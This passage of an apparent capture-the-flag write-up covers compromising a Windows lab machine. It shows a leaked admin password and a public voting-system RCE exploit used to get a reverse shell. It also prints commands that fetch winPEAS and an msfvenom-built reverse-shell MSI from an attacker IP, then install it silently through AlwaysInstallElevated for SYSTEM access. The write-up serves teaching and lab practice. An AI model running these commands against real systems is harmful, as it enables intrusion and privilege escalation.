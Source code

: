 ![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901174258.png)

5040 no result but 5000 I got admin creds

```
http://127.0.0.1:5000
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901174105.png)

admin @LoveIsInTheAir!!!!

## Gaining Access

Now we can try RCE exploit (authenticated now) that I found earlier 
https://www.exploit-db.com/exploits/49445
Edit settings:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901180131.png)

Didn't work for me. 
Then checked exploit code and I spotted we do not use /votesystem/ in url, after delete it exploit works and we got reverse shell:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901180755.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901180812.png)

## Privilege Escalation

after grabbing first flag i downloaded winpeas

```
iwr "http://10.10.14.8/winPEASany.exe" -o "win.exe"
```

found powershell history but 

```
C:\Users\Phoebe\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

Scorlling down winpeas output I imminently spot AlwaysInstallElevated

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901181248.png)

In 99% it is quick win, so starting with creating malicious .msi

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=4444 -f msi -o malicious.msi
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901181901.png)

Sending, downloading, and running on server

```
iwr "http://10.10.14.8/malicious.msi" -o "malicious.msi"

msiexec /quiet /qn /i C:\users\phoebe\malicious.msi
```

And we got system shell.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901181814.png)